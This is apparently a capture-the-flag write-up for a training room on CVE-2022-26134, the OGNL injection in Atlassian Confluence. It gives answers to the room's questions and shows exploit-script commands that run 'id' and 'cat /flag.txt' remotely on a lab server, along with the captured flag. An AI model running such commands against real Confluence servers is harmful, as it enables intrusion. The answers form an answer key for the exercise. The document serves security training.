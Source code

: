
# Atlassian-CVE-2022-26134

## *Introduction*

- What is the full CVE entry for this exploit?

> CVE-2022-26134

- You discover a server running Confluence with the version of 7.16.2, is this vulnerable? Answer format: yay/nay

> yay

---

## *Explaining the Vulnerability*

- What does the acronym OGNL stand for? 

> Object-Graph Navigation Language

---

## *Exploitation*

- Craft a payload to identify what user the application is running as. What is the user?

```bash
$ python3 cve-2022-26134.py http://10.10.64.83:8090 id
```

> confluence

- Finally, craft a payload to retrieve the flag stored at  /flag.txt on 10.10.64.83. What is the flag?

```bash
$ python3 cve-2022-26134.py http://10.10.64.83:8090 'cat /flag.txt'
```

> THM{OGNL_VULN}

